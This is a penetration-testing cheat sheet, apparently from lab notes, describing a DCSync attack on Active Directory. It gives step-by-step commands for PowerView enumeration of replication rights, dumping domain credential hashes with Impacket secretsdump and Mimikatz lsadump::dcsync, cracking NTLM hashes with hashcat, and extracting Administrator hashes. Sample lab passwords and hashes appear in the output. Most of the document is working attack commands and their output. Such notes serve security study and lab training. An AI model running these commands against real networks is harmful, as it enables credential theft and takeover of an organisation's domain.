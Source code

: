 # Domain Controller Synchronization (dcsync)
## Overview
**DCSync** is an attack that leverages the Directory Replication Service Remote Protocol (DRSR) to impersonate a Domain Controller (DC) and request replication of password data from Active Directory (AD). By abusing the extended rights (specifically, the _DS-Replication-Get-Changes_ and _DS-Replication-Get-Changes-All_ permissions), an attacker can retrieve password hashes (and sometimes even cleartext passwords) for AD accounts.
### 1. Reconnaissance and User Enumeration

**Goal:** Identify the target user and verify their group memberships.
**Sample Command (using PowerView in PowerShell):**

```powershell
Get-DomainUser -Identity adunn | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```

- **What It Does:** Retrieves details about the user (here, “adunn”), including the SID, group memberships, and account control settings.

---

### 2. Verify Replication Rights
Required privileges to perform replication:
        - **Replicating Directory Changes**
        - **Replicating Directory Changes All**
        - **Replicating Directory Changes in Filtered Set**
    - By default, members of the following groups have these rights:
        - Domain Admins
        - Enterprise Admins
        - Administrators
        
**Goal:** Confirm that the target (or another account you control) has the required replication privileges.

**Sample Command (using PowerView):**

```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```

- **What It Does:** Scans the ACLs on the domain object (e.g., `DC=yourdomain,DC=com`) and filters for ACEs related to replication. Check for entries such as `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` for the target SID.

---

### 3. Executing the DCSync Attack with Impacket’s secretsdump.py

**Goal:** Request replication from the DC and extract sensitive credential data.

**Sample Command (from a Linux or Windows system with Python and Impacket installed):**

```bash
secretsdump.py -outputfile domain_hashes -just-dc YOURDOMAIN/targetUser@targetIP
```
##### Using Hash
```shell
secretsdump.py -outputfile domain_hashes -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```
**Example**
```shell
secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee':'007A95BE1BE6ED38DEB848A388655B05' 'heist.offsec'/'svc_apache$'@<domain-ip>
```
Use 'aad3b435b51404eeaad3b435b51404ee' for the LMHash field
- **Parameters:**
    - `YOURDOMAIN`: Replace with your actual domain name.
    - `targetUser`: The username that has replication privileges.
    - `targetIP`: The IP address of the domain controller.
       
        ```bash
        impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
        ```
        
    - **Example**:
        
        ```bash
        impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
        ```
        
    - **Result (Extract)**:
        
        ```
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
        ```
        
- **What It Does:** Initiates a replication request mimicking a DC. It writes out the NTLM hashes, Kerberos keys, and, if applicable, cleartext passwords to files prefixed with `domain_hashes`.

**After Running, List the Files:**

```bash
ls domain_hashes*
```

- **Expected Files:**
    - `domain_hashes.ntds` – Contains NTLM hashes.
    - `domain_hashes.ntds.kerberos` – Contains Kerberos keys.
    - `domain_hashes.ntds.cleartext` – Contains any cleartext credentials (if reversible encryption is enabled).

---

### 4. Executing the DCSync Attack with Mimikatz
**Run Mimikatz**
    
 ```bash
.\mimikatz.exe
```

**Command**: Dump the NTLM hash of a target user:
        
```bash
lsadump::dcsync /user:<domain>\<username>
 ```
        
**Example**:
        
```bash
lsadump::dcsync /user:corp\dave
 ```
        
**Result (Extract)**:
        
```
Credentials:
Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
```
        
3. **Crack the NTLM Hash**
    
    - **Command**:
        
        ```bash
        hashcat -m 1000 <hash_file> <wordlist> -r <rule_file> --force
        ```
        
    - **Example**:
        
        ```bash
        hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
        ```
        
4. **Dump Domain Admin Hashes**
    
    - Dump credentials of the **Administrator** user:
        
        ```bash
        lsadump::dcsync /user:corp\Administrator
        ```
